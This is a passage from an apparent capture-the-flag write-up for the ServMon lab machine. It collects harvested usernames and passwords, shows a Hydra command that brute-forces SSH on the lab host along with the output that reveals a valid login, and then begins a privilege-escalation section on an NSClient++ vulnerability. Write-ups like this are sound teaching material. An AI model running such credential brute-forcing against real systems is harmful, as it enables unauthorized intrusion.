 Let's consolidate the usernames and passwords we've gathered up to this point.

In `user.txt`:

```
nadine
nathan
```

In `password.txt`:

```
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

We can use these information to bruteforce the SSH service with hydra.

```
# hydra -L user.txt -P password.txt 10.10.10.184 -t 4 ssh

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
<SNIP>
[DATA] attacking ssh://10.10.10.184:22/
[22][ssh] host: 10.10.10.184   login: nadine   password: L1k3B1gBut7s@W0rk
<SNIP>
```

We find a set of SSH crecentials. With it, we can log into nadine's account.

```
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>whoami
servmon\nadine
```

Here, you can find the user flag.

## Privilege Escalation Through NSClient++ Vulnerability

Our initial port scan revealed that NSClient++ is running at port 8443.

[NSClient++](https://docs.nsclient.org/) is a monitoring daemon that allows enables integration with a remote monitoring server.

A search on exploitdb shows that [NSClient++ 0.5.2.35 has a privilege escaltion vulnerability](https://www.exploit-db.com/exploits/46802).

Let's find out if the installed version is vunerable.
